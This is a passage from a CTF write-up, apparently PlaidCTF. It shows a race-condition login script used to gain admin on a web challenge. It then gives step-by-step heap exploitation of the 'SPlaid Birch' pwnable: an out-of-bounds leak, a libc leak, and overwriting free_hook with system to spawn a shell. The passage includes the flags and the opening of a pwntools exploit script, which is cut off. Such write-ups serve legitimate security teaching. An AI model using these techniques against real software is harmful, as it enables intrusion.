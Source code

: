 ```python
#setuser(target, sess)


init(user, sess)
time.sleep(1)

def job():
    login(pwd, sess)
    time.sleep(1)

t = threading.Thread(target = job)

t.start()

setuser(target, sess)
time.sleep(1)

t.join()

print("Done.")


```

if we login as admin, we can find out the flag:

![](https://i.imgur.com/7U7tbUd.png)




## Pwnable
### SPlaid Birch

* SP_select can let us select a SP and show its value, but this function contains out-of-bound vulnerability.
* We can add two SPs and trigger the vulnerability to leak heap address.
* Create unsortbin.
* Fake a SP_struct pointer on heap and let the value points to the unsortbin, so that we can trigger the vulnerability to leak libc address contained in the unsortbin.
* Fake a SP_struct pointer on heap and let the value points to free_hook, so that we can trigger the vulnerability to modify free_hook to system using sp_isolate2.
* Conduct sp_add(0x6873,0x6873) twice to trigger free_hook('sh').

flag : `PCTF{7r335_0n_h34p5_0n_7r335_0n_5l3470r}`

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
import sys
import time
import random
host = 'splaid-birch.pwni.ng'
port = 17579

binary = "./splaid-birch"
context.binary = binary
elf = ELF(binary)
try:
  libc = ELF("./libc.so.6")
  log.success("libc load success")
  system_off = libc.symbols.system
  log.success("system_off = "+hex(system_off))
except:
```